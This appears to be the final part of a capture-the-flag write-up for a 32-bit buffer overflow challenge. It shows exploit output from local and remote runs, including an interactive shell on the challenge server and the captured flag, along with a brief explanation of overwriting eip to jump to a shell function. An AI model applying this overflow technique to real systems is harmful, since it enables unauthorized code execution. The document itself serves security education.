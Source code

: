 Local execution :

```
[+] Starting local process './chall': pid 14565
[*] Switching to interactive mode
Yeah mate! You win!
Opening your shell...
$ whoami
rivench
$ ls
chall  chall.c    core  script_local.py  script.py  solution.md
$ exit
Shell closed! Bye.
```

Remote Execution :

```
[+] Opening connection to pwn.challs.ctf.shellmates.club on port 1405: Done
[*] Switching to interactive mode
Yeah mate! You win!
Opening your shell...
$ whoami
nobody
$ ls
chall
entrypoint.sh
flag.txt
$ cat flag.txt
shellmates{Ar3_P30Pl3_ST1LL_U$In9_GETS!!!!}
$ exit
```

After executing that code, first, the pointers will be overwrited of the `chall` program but we will find that the `eip` pointer will be overwrittend with our specific address, this will make him jump to the `shell()` instead of returning to the main function, and after passing checks and execute prints out the flag.

**Note :** in order to run `chall` binary, add execution permissions to it.

```sh
└─$ chmod +x ./chall
```

## Flag

shellmates{Ar3_P30Pl3_ST1LL_U$In9_GETS!!!!}

## More information :

 - https://0xrick.github.io/binary-exploitation/bof3/?fbclid=IwAR2Mppoig0o57gQUBm1YQIGH44tBtqWeRB3Jr56RrAFlTzq96qFj5WR_vp8
 - https://courses.cs.washington.edu/courses/cse374/18sp/lectures/20-buffer-overflows.html?fbclid=IwAR04qbKpLA2emy0_RunFvULwi2qXYSR8-9WtdsawX-bvM5DNWi4l187gOwA
 - https://security.stackexchange.com/questions/172053/how-to-pass-parameters-with-a-buffer-overflow?fbclid=IwAR3PLNV40nBPjhyleXTOnxpZneH-6-cYn-NyxXcXcB_pAXoYRRmzOodOmKU
 - https://www.tenouk.com/Bufferoverflowc/Bufferoverflow2a.html
 - https://en.wikipedia.org/wiki/X86_calling_conventions
 - https://www.google.com/search?q=buffer+overflow+32+bits+calling+convention&client=firefox-b-e&ei=qy11Y8WQK4GskdUPk82UiAI&oq=buffer+overflow+32+bits+calling+conve&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAxgBMgUIIRCgATIFCCEQoAEyBQghEKABOgoIABBHENYEELADOgYIABAWEB46BAghEBU6CAghEBYQHhAdOgcIIRCgARAKSgQIQRgASgQIRhgAUJUCWK8nYNs6aAFwAXgAgAHYA4gBoiCSAQgyLTEwLjIuMpgBAKABAcgBCMABAQ&sclient=gws-wiz-serp
 - https://www.0x0ff.info/2021/advanced-buffer-overflow-bypass-aslr-32-bits/
